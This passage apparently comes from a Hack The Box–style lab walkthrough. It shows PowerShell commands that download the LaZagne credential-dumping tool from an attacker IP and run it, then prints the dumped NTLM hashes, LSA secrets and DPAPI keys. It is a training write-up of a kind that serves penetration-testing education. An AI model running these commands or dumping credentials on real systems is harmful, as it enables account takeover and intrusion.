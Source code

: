 With PowerShell as administrator go to C:\Users\Public\Downloads\ and transfer over lazagne.exe:

```
PS C:\Users\Hacker> cd C:\Users\Public\Downloads\
PS C:\Users\Public\Downloads> wget "http://10.10.15.140:8888/lazagne.exe" -o "lazagne.exe"
```

<img width="1919" height="678" alt="image" src="https://github.com/user-attachments/assets/e06749ad-9533-462d-8910-858a36c621d2" />

Start PowerShell with administrative privileges and run the exploit: 

```
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Users\Public\Downloads
PS C:\Users\Public\Downloads> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 1ef7b31a-39fd-4309-877e-c354d5a19506
[+] System masterkey decrypted for 644d306e-3a7a-434b-bd62-0b81ab91e5b6
[+] System masterkey decrypted for 6977da93-ec45-468e-8a19-97d9865fb2e6
[+] System masterkey decrypted for 1be9dd5b-844f-4388-a82e-ca7567ffcdbb

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
mrb3n:1000:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
htb-student:1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6:::
Hacker:1002:aad3b435b51404eeaad3b435b51404ee:657cc99ace25cc19c7d2902f26fb826d:::

------------------- Lsa_secrets passwords -----------------

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   99 4F 5D 6C 55 B9 EC B5 0C 0B D8 75 A2 88 93 E4    .O]lU......u....
0020   C0 D9 EF C5 0D B9 40 57 92 39 9A BE 9D A5 83 ED    ......@W.9......
0030   11 CB 71 7C AB 32 CD 11 FD 7A ED 2E AB BE F1 62    ..q|.2...z.....b
0040   58 F2 1D 8A AC 9F AC FB 32 17 D8 EE B3 BD A5 DC    X.......2.......
0050   E2 D9 82 77 4A A3 16 D6 F3 B5 E0 28 13 72 C7 2E    ...wJ......(.r..

DPAPI_SYSTEM
0000   01 00 00 00 1D 35 B6 2C 53 EC 28 92 E8 6D D5 BE    .....5.,S.(..m..
0010   C7 4C 78 54 10 66 34 3A 70 3F 77 AF 3F 11 FA 7F    .LxT.f4:p?w.?...
0020   03 8D 79 6A CC 1A FF AC 7C 0E DD D3                ..yj....|...



########## User: Administrator ##########

------------------- Apachedirectorystudio passwords -----------------

[+] Password found !!!
AuthenticationMethod: SIMPLE
```